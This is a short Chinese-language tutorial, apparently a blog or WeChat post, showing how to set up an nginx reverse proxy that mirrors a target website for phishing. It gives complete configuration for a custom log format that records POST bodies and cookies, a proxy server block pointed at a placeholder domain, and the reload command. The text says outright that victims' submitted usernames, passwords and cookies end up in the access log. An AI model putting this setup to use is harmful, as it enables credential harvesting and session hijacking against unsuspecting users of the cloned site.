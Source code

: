 1、打开nginx配置⽂件/www/server/nginx/conf/nginx.conf ， 在http处添加以下配置，指定日志的存储内容。  
```
log_format Clonelog escape=json '{$remote_addr|'
    '$request_filename|'
    '$request_body|'
    '$http_cookie|'
    '$http_x_forwarded_for|'
    '$time_local}';
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VtXERGfLa5L8FIUPgqW802yQ902yc8dmbBZsHytWWQ2BPoVKHIY4PGg/640?wx_fmt=png&from=appmsg "")  
  
2、在/www/server/panel/vhost/nginx/目录下新增clone.conf，做如下配置，生成镜像网站  
```
server
{
    listen 8000;
    server_name 127.0.0.1;
    index index.html index.htm index.php;
    access_log /www/wwwlogs/access.log Clonelog;
 location / {
    proxy_pass http://xxx.xxx.com;
    proxy_buffering off;
    proxy_set_header X-Real-Ip $remote_addr;
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    proxy_set_header Host "xxx.xxx.com";
    proxy_set_header Accept-Encoding "";
    proxy_set_header User-Agent $http_user_agent;
    proxy_set_header referer "http://xxx.xxx.com$request_uri";
    }
}
```  
  
server_name 监听的域名。  
  
access_log 设置输出⽇志的路径，最后面是我们配置的日志输出格式 。  
  
proxy_pass 反向代理的⽹站 。  
  
proxy_set_header ⽤于在向反向代理的后端 Web 服务器发起请求时 添加指定的 Header头信息。  
  
access_log 要和上⾯的nginx.conf 配置中的Clonelog 对应不然⽇志 不会起作⽤。  
  
重点是$request_body (获取post数据)，$http_cookie (获取cookie数据)这就是我们钓⻥的核⼼了。当有⼈访问并登陆我们反向代理的⽹站以 后 我们点开⽇志就可以看到他的cookie和post提交的⽤户名和密码了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VntxTA0F05hej5V19lpj11RIb3ib8e9V8iacvSgACh0YWkhGSpjgicwHtg/640?wx_fmt=png&from=appmsg "")  
  
3、重新加载nginx配置文件，nginx -s reload  
  
4、访问克隆网站，查看效果  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic0DKKuMAu4bXMF7B2t6nk7VBHfyk1xSlaiaLSWDkBeeuML3pb9wn166aicC8XicoSBeBic1C2byjvuBgA/640?wx_fmt=png&from=appmsg "")  
  
5、如果用户提交账户密码，就会被日志文件记录，日志文件位置：/www/wwwlogs/access.log  
  